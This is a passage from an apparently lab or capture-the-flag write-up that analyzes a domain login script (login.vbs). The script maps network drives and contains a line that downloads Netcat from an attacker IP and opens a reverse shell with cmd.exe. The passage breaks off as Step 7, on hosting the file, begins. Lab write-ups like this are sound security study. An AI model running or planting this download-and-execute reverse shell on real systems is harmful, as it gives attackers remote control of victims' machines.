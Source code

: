 
## Step 6 – Analyzing `login.vbs`

1. **Purpose of the Script**
    
    The `login.vbs` is a **login script** that runs whenever a user logs in. It performs two main tasks:
    
    - Maps network drives to the user (`V:` → `\\dc.baby2.vl\apps` and `L:` → `\\dc.baby2.vl\docs`).
        
    - Executes a remote download and reverse shell command.
        
2. **Mapping Network Drives**
    
    The `MapNetworkShare` subroutine does the following:
    
    - Creates a network object:
        
```bash
Set objNetwork = CreateObject("WScript.Network")
```
        
    - Checks if the drive letter is already mapped. If so, it removes it:
        
        `objNetwork.RemoveNetworkDrive driveLetter & ":", True, True`
        
    - Maps the new network drive:
        
        `objNetwork.MapNetworkDrive driveLetter & ":", sharePath`
        
    - Prints success or failure messages.
        
3. **Reverse Shell Component**
    
    This line is the **malicious part**:
    
```bash
WshShell.run "cmd.exe /c curl 10.8.7.96:8001/nc64.exe -o C:\Windows\Temp\nc64.exe && C:\Windows\Temp\nc64.exe 10.8.7.96 2222 -e cmd.exe"
```
    
    Step-by-step:
    
    - Downloads `nc64.exe` (Netcat 64-bit) from `10.8.7.96:8001`.
        
    - Saves it to `C:\Windows\Temp\nc64.exe`.
        
    - Runs Netcat to connect back to `10.8.7.96` on port `2222` and spawn a command shell (`cmd.exe`).
        
    
    This effectively **gives the attacker remote control** of the machine.
    
4. **Final Execution**
    
    At the end of the script, the network drives are mapped:
    
    `MapNetworkShare "\\dc.baby2.vl\apps", "V" MapNetworkShare "\\dc.baby2.vl\docs", "L"`


## Step 7 – Hosting `nc64.exe` for the Reverse Shell

1. **Starting the Server**
    